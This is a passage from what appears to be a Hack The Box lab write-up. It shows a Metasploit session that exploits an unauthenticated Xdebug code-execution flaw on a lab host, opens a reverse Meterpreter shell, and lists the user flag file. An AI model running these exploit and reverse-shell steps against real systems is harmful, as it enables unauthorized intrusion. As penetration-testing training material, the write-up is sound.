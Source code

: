 ```sh
┌──(root💀kali)-[~/htb/static]
└─# msfdb start                       
[+] Starting database

┌──(root💀kali)-[~/htb/static]
└─# msfconsole 
       =[ metasploit v6.1.12-dev                          ]
+ -- --=[ 2176 exploits - 1152 auxiliary - 399 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

msf6 > use exploit/unix/http/xdebug_unauth_exec
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/http/xdebug_unauth_exec) > set PATH /vpn/login.php
PATH => /vpn/login.php
msf6 exploit(unix/http/xdebug_unauth_exec) > set RHOSTS 172.20.0.10
RHOSTS => 172.20.0.10
msf6 exploit(unix/http/xdebug_unauth_exec) > set LHOST tun9
LHOST => tun9
msf6 exploit(unix/http/xdebug_unauth_exec) > set LPORT 9001
LPORT => 9001
msf6 exploit(unix/http/xdebug_unauth_exec) > exploit 

[*] Started reverse TCP handler on 172.30.0.10:9001 
[*] 172.20.0.10:80 - Waiting for client response.
[*] 172.20.0.10:80 - Receiving response
[*] 172.20.0.10:80 - Shell might take upto a minute to respond.Please be patient.
[*] 172.20.0.10:80 - Sending payload of size 2026 bytes
[*] Sending stage (39282 bytes) to 172.30.0.1
[*] Meterpreter session 1 opened (172.30.0.10:9001 -> 172.30.0.1:42084 ) at 2021-11-03 21:26:55 +0000
```

With the session connected we can drop to a shell to look around:

```sh
meterpreter > shell
Process 514 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

pwd
/var/www/html/vpn

ls -lsa /home
4 -rwxrwxrwx 1 root     root       33 Nov  3 13:38 user.txt
4 drwxr-x--- 4 www-data www-data 4096 Jun 14 08:02 www-data
```

## User Flag
